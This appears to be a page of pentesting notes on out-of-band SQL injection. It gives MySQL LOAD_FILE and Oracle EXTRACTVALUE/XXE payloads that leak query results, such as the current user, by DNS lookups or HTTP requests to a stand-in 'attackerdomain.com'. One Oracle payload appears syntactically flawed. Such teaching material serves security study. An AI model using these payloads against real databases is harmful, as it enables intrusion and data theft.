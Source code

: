 # Out of band

With the above methods, we're either dependant on being able to affect the output with our injected query, or we require the SQL queries to run synchronously so that we can add time delays. In some circumstances, this may not be possible and we may need to rely on other channels to exfiltrate data.

The most common exfiltration methods for out-of-band SQLi are via HTTP/DNS requests or via file share access, both of which require certain features to be enabled on the target.

Finding targets vulnerable to Out-of-band SQLi are often difficult to find and typically require fuzzing the host with common payloads.

## Exploitation

### DNS Exfiltration

With DNS exiltration, we're injecting a SQL query which triggers a DNS request from the target. We then either need to be in a position where we can poision the DNS queries of the server - or we can trigger the DNS lookup for a domain that we control. If the latter, we would need to set the nameserver for that domain to a host on which we can monitor DNS lookups. To validate this, we first want to trigger a DNS lookup for a named domain.  In MySQL we can use the `LOAD_FILE` function ([MySQL](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)) such as:

```sql
SELECT LOAD_FILE('\\\\attackerdomain.com\\x.txt');
```

This query can then be modified to concatenate the output of another query into the DNS lookup, for example:

```sql
SELECT LOAD_FILE(CONCAT('\\\\',CURRENT_USER(),'.attackerdomain.com\\x.txt'));
```

This will allow us to execute arbitrary SQL commands and gather the output through DNS queries.

### HTTP Exfiltration

With Oracle database targets, we may be able to exploit an XML external entity (XEE) vulnerability to trigger an HTTP request by using the `EXTRACT_VALUE` function ([Oracle](https://docs.oracle.com/cd/B19306_01/server.102/b14200/functions052.htm)), such as the following:

```sql
SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attackerdomain.com/test"> %remote;]>'),'/1') FROM dual;
```

At this point, we can either exfiltrate the data via a subdomain and follow a similar process to the DNS exfiltration, or we can exfiltrate it via the HTTP GET request. eg:

```sql
SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attackerdomain.com/'|| SELECT user FROM dual ||'"> %remote;]>'),'/1') FROM dual;
```

This will allow us to execute arbitrary SQL commands and gather the output through HTTP Requests.
